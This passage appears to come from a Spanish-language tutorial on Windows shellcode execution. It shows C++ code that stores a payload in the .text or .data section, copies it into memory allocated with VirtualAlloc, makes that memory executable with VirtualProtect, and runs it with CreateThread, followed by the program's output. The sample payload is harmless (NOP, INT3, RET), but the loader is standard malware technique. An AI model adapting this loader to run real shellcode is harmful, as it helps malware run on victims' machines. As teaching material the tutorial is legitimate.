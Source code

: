 ```c++
		0xcc,		// INT3
		0xc3		// RET
	};
	unsigned int payload_len = 4;
	
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("\nSotred payload in .text section: %-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("\n [VirtualAlloc] of new moemory region: %-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);
	getchar();
	printf("\n [RtlMoveMemory] copy data \n");
	RtlMoveMemory(exec_mem, payload, payload_len);
	printf("\n [VirtualProtect] Include execution and read privileges PAGE_EXECUTE_READ \n");
	getchar();
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	printf("\n [CreateThread] Exec stored payload \n");
	getchar();
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```
Salida de la ejecución:

```

Sotred payload in .text section: payload addr         : 0x0000008CB73BF820

 [VirtualAlloc] of new moemory region: exec_mem addr        : 0x000001A307D40000


 [RtlMoveMemory] copy data

 [VirtualProtect] Include execution and read privileges PAGE_EXECUTE_READ


 [CreateThread] Exec stored payload

```
## Inyeccion en .data

Código de ejemplo, el shellcode se almacena dentro de una variable global en el código fuente:
```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

unsigned char payload[] = {
		0x90,		// NOP
		0x90,		// NOP
		0xcc,		// INT3
		0xc3		// RET
	};
unsigned int payload_len = 4;
	
int main(void) {
    
```